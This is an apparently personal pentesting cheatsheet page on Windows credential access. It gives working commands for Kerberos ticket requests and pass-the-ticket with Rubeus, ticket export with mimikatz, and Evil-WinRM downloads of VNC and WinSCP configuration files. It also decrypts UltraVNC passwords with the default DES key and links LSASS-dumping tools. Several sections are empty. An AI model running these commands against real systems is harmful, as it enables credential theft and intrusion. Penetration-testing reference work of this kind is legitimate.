 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2023-03-13
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Sofwares](#Sofwares)
	* [Automated](#Automated)
	* [mRemoteNG](#mRemoteNG)
	* [xVNC](#xVNC)
	* [WinSCP](#WinSCP)
	* [Putty](#Putty)
	* [Web Browsers](#WebBrowsers)
* [NTDS.dit dump](#NTDS.ditdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 

- [Wiki](https://github.com/GhostPack/Rubeus)
- Compilation :
```powershell
# compilation
```

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='LSASS.exedump'></a>LSASS.exe dump

🔥 [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/)

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

## <a name='SAMdump'></a>SAM dump

- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## <a name='Services'></a>Services

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='Sofwares'></a>Sofwares

### <a name='Automated'></a>Automated

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='mRemoteNG'></a>mRemoteNG

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xVNC'></a>xVNC

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='WinSCP'></a>WinSCP

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='Putty'></a>Putty

### <a name='WebBrowsers'></a>Web Browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='NTDS.ditdump'></a>NTDS.dit dump